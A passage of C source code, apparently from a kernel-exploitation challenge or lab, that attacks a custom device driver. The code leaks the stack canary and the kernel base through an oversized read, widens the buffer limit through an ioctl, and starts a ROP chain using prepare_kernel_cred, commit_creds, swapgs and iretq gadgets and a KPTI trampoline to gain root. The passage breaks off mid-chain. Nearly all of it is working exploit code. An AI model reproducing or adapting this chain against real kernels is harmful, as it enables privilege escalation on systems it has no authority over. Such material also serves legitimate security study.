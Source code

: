 ```c
    puts("[+] Device closed");
}

int main(void)
{
    
    save_state();
    uint64_t* buffer;
    buffer = mmap(BUFFER_ADDR, BUFFER_SIZE, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0); //control size with mmap
    
    control_ioctl(GET_USERLAND_OFFSET, buffer); //check size
    printf("%s\n", (char*)buffer);
    memset(buffer, 0, BUFFER_SIZE);
    
    // ffffffff81000000 T _text
    // ffffffff81e010a1 T _etext
    // ffffffff81c00a2f T swapgs_restore_regs_and_return_to_usermode
    // 0xffffffff81c00b39
    // ffffffff81087e80 T commit_creds
    // ffffffff810881c0 T prepare_kernel_cred


    unsigned int read_length = 8 * 20;
    control_read(buffer, read_length);
    int i;
    for(i = 0; i < 20; i++)
    {
        printf("%llx\n", buffer[i]);
    }

    uint64_t canary = buffer[16];
    uint64_t kernel_base = buffer[18] - 0x23e347;
    memset(buffer, 0, BUFFER_SIZE);
    printf("canary: 0x%llx\n", canary);
    printf("kernel base: 0x%llx\n", kernel_base);

    control_ioctl(SET_MAX_BUFFER, buffer); //expand max length size
    memset(buffer, 0, BUFFER_SIZE);

    buffer[16] = canary;
    buffer[17] = 0x4141414142424242;
    
    // 0xffffffff8133afce: mov rdi, rax; test rbx, rbx; jg 0x53afc0; mov rax, rdi; pop rbx; ret; 
    // 0xffffffff81000a76: pop rbx; ret; 
    // 0xffffffff81001518: pop rdi; ret;
    // 0xffffffff81c00eaa: swapgs; popfq; ret; 
    // 0xffffffff81023cc2: iretq; ret; 

    /* start ROP */
    uint64_t prepare_kernel_cred = kernel_base + 0x881c0;
    uint64_t commit_creds = kernel_base + 0x87e80;
    uint64_t kpti_trampoline = kernel_base + 0xc00a2f + 0x10a;
   
    uint64_t pop_rdi__ret = kernel_base + 0x1518;
    uint64_t pop_rbx__ret = kernel_base + 0xa76;
    uint64_t mov_rdi_rax_rbxjump_ret = kernel_base + 0x33afce;
    uint64_t swapgs_popfq_ret = kernel_base + 0xc00eaa;
    uint64_t iretq = kernel_base + 0x23cc2;

    printf("pop rdi address: 0x%llx\n", pop_rdi__ret);
    printf("%llx %llx %llx %llx", user_cs, user_rflags, user_sp, user_ss);
    buffer[18] = pop_rdi__ret;
```